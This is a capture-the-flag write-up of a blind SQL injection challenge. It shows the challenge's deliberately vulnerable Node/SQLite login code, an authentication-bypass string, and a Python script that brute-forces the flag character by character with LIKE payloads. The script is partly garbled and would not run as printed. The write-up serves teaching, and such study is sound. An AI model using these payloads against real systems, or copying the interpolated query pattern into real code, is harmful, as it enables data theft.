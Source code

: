 # web/password-3

A quick but interesting proof of concept that security by obscurity does not and will never work. Even when you don't have reflected feedback from your SQL commands, your database is still not safe. 

## The Challenge

We are presented with a standard login page looking mighty submissive and pwnable and containing only a single password field. Looking at the source code for the server file 
```js
const crypto = require('crypto')

const database = require('better-sqlite3')

const express = require('express')

const app = express()

  

FLAG = process.env.FLAG ?? 'flag{testflag}'

  

const db = new database(':memory:')

const id = () => crypto.randomBytes(16).toString('hex')

  

app.use(express.static('public'))

app.use(express.json())

  

app.post('/password', (req, res) => {

    const password = (req.body.password ?? '').toString()

    const result = db.prepare(

        `SELECT password FROM passwords WHERE password='${password}';`

    ).get()

    if (result) res.json({

        success: true,

        message: (

            'Congrats on logging in! However, that\'s not enough... can you ' +

            'find the flag in the database this time?'

        ),

    })

    else res.json({ success: false })

})

  

db.exec(`

    CREATE TABLE passwords (

        password TEXT

    );

  

    INSERT INTO passwords (password) VALUES ('${id()}');

    INSERT INTO passwords (password) VALUES ('${id()}');

    INSERT INTO passwords (password) VALUES ('${id()}');

    INSERT INTO passwords (password) VALUES ('${FLAG}');

`)

  

app.listen(3000)
```

as well as this script tag in the frontend index.html file
```js
form.addEventListener('submit', async (event) => {

	event.preventDefault();

	const input = document.querySelector('input[type="text"]');

	const response = await fetch('/password', {

	  method: 'POST',

	  headers: { 'content-type': 'application/json' },

	  body: JSON.stringify({ password: input.value }),

	})

	const result = await response.json()

	if (result.success) {

	  const content = document.querySelector('.content')

	  content.textContent = result.message;

	} else {

	  input.removeAttribute('style');

	  input.offsetWidth;

	  input.style.animation = 'shake 0.25s';

	}

  });
```

we realize that after clicking the `Login` button our password field data will be sent over to the server endpoint `/password` and processed using the SQL select string ```
```SQL
SELECT password FROM passwords WHERE password='${password}';`.
```

Trying the standard authentication bypass string `admin' OR '1'='1';--` and logging in we are able to see the message 
`Congrats on logging in! However, that's not enough... can you find the flag in the database this time?`

Looking more closely at the provided source code we see 
```js
FLAG = process.env.FLAG ?? 'flag{testflag}'
...
db.exec(`

    CREATE TABLE passwords (

        password TEXT

    );

  

    INSERT INTO passwords (password) VALUES ('${id()}');

    INSERT INTO passwords (password) VALUES ('${id()}');

    INSERT INTO passwords (password) VALUES ('${id()}');

    INSERT INTO passwords (password) VALUES ('${FLAG}');

`)
```

The flag we are looking for is loaded in from an environment variable as is standard and INSERTed into the sqlite3 database. With seemingly no feedback from our SQL injections, however, we'll have to think of a more creative way to leak the passwords table in the database!

## Thinking About The Problem and SQL
One piece of feedback we do get is whether or not our SQL injection string did in fact run successfully and match something in the database or not. If we could somehow send a SQL injection that would return true if our input was similar to or LIKE one of the actual passwords in the database, we could bruteforce the password character by character.

Thankfully, SQL has the aptly named `LIKE` operator that does just this. We can use the LIKE operator in conjunction with the `%` wildcard character to match the flag in the database character by character with the server returning a valid logged in `true` response only if our guess is similar to the flag in the `passwords` table.

Our exploit string should look something along the lines of `' OR password LIKE '[guess]%` utilizing the previously selected password variable in the first half of the statement as well as the already provided ending single quote `'`; at the end of the statement.

## The Exploit
Writing up a quick bruteforce script to run this iteratively on the `/password` endpoint we get our final exploit

```python
import requests 

possibilities = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#Z^&*()" 

#flag = flag{whee_binary_search_sqli}
flag = "flag{"
url = "https://password-3.challs.wreckctf.com/password" 
payload = "" 

while True: 
	for char in possibilities: 
		print("Trying: " + flag + payload + char) 
		password = f"' OR password LIKE '{flag + payload + char}%" 
	    print(password) 
		r = requests.post(url, json={"password": password}) 
		print(r.text) 
		if r.text.find("Congrats") != -1: 
			payload += char if payload[-1] == "}": 
			exit() 
		break
```

This implementation isn't entirely complete as it breaks at the last character and I had to manually add the ending curly brace `}` for the flag but nonetheless iterates through all the previous characters and gets the necessary part of the flag.


## Challenge Analysis
This was a quick and simple challenge but quite an interesting one that highlights a key issue in many developers' intuition. Just because a hacker can't see the output of your SQL commands and other backend maneuvers does not necessarily mean they won't be able to find vulnerabilities in the system or exploit those very backend operations.

The challenge provided us with the sourcecode for the server making it almost immediately apparent what had to be done but even without source code this kind of a vulnerability would be easy to catch given a form submission on any website or API running on a SQL database backend. It could also easily be *escalated* to try and read data from other tables on the database if not secured properly and leak data on a much larger scale than just a single flag in a single location, as was the case here.

